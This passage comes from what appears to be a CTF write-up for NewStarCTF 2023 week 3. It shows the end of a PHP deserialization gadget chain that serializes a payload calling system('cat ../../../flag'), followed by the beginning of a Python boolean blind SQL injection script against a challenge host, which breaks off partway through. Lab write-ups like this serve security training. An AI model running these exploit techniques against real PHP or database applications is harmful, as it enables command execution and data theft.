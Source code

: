 ```php
        $this->obj=$a;
    }
}

class Super{
    protected $obj;
    public function setPrivate($a)
    {
        $this->obj=$a;
    }
}

class CTF{
    public $handle;
}

class WhiteGod{
    public $func='system';
    public $var='cat ../../../flag';

    
}
$flag=new Begin();
$A=new Then();
$B=new Handle();
$C=new Super();
$D=new CTF();
$E=new WhiteGod();
$D->handle=$E;
$B->setPrivate($D);
$C->setPrivate($B);
$A->setPrivate($C);
$flag->name=$A;


echo serialize($flag);
?>
```





## [NewStarCTF 2023 week3] medium_sql

 布尔盲注

```cpp
url = "http://da0d4c93-63d3-44fa-ac03-c1dee22a3944.node4.buuoj.cn:81"
n = 1
#数据库:ctf
#表名:gradas,here_is_flag
#字段名:flag
flag=''
for i in range(1,43):
    low=31
    high=127
    while low<=high:
        mid=(low+high)//2
        paylord_database="?id=TMP0919' And ASCII(SUBSTR((SELECT GROUP_CONCAT(flag) FROM here_is_flag),{},1))>{} --+".format(i,mid)
        response=requests.get(url+paylord_database)
        if("TMP0919" in response.text):
            low=mid+1
        else:
```